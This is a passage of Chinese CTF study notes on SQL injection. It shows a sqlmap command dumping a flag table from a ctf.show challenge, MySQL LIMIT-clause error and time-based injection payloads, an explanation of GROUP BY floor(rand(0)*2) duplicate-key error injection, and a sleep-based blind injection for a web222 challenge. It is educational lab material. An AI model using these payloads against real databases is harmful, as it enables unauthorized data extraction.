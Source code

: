 最后附上一个sqlmap例子
`sqlmap -u http://b33260ff-e59f-43b3-a76a-b0abe8dbf074.challenge.ctf.show/api/index.php  --method=PUT --headers="Content-Type: text/plain" --data="id=1" --refer=ctf.show  -D ctfshow_web -T ctfshow_flavis -C ctfshow_flagxsa --dump --safe-url http://b33260ff-e59f-43b3-a76a-b0abe8dbf074.challenge.ctf.show/api/getToken.php --safe-freq 1 --tamper="revbaserev.py "`

### limit注入

此方法适用于MySQL 5.x中，在limit语句后面的注入
`SELECT field FROM user WHERE id >0 ORDER BY id LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);`
`ERROR 1105 (HY000): XPATH syntax error: ':5.5.41-0ubuntu0.14.04.1'`
如果不支持报错注入的话，还可以基于时间注入：

`SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)`

### group by

#### 报错注入

使用`ceil()`(向上取整)代替`floor()`。当然也可以使用`round()`

`select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2));`

`floor(rand(0)*2)`产生的随机数前6位一定是`0 1 1 0 1 1`
`concat()`用于将字符串连接
`concat(database(),floor(rand(0)*2))`生成`database()+"0"`或`database()+"1"`的数列，而前六位的顺序一定是
`database()+"0"`
`database()+"1"`
`database()+"1"`
`database()+"0"`
`database()+"1"`
`database()+"1"`
报错具体过程：

建立临时表
取第一条记录，执行`concat(database(),floor(rand(0)*2))（第一次执行），结果为database()+“0”`，查询临时表，发现`database()+"0"`这个主键不存在，则准备执行插入，此时又会在执行一次`concat(database(),floor(rand(0)*2))`（第二次执行），结果是`database()+“1”`，然后将该值作为主键插入到临时表。*（真正插入到临时表中的主键是`database()+“1”，concat(database(),floor(rand(0)2))` 执行了两次）
取第二条记录，执行`concat(database(),floor(rand(0)2))`（第三次执行），结果为`database+“1”`，查询临时表，发现该主键存在，count()的值加1
取第三条记录，执行`concat(database(),floor(rand(0)*2))`（第四次执行），结果为`database()+“0”`，查询临时表发现该主键不存在，则准备执行插入动作，此时又会在执行一次`concat(database(),floor(rand(0)*2))`（第五次执行），结果是`database()+“1”`，然后将该值作为主键插入到临时表。但由于临时表已经存在`database()+"1"`这个主键，就会爆出主键重复，同时也带出了数据库名，这就是`group by`报错注入的原理

#### 基于时间的盲注

web222
查询语句
//分页查询
`$sql = select * from ctfshow_user group by $username;`
每则数据都需要group by归类，所以都会执行sleep语句，那么有几条数据就会执行几次sleep

利用
`select * from ctshow_user group by 1,if(1=1,sleep(0.05),1)`
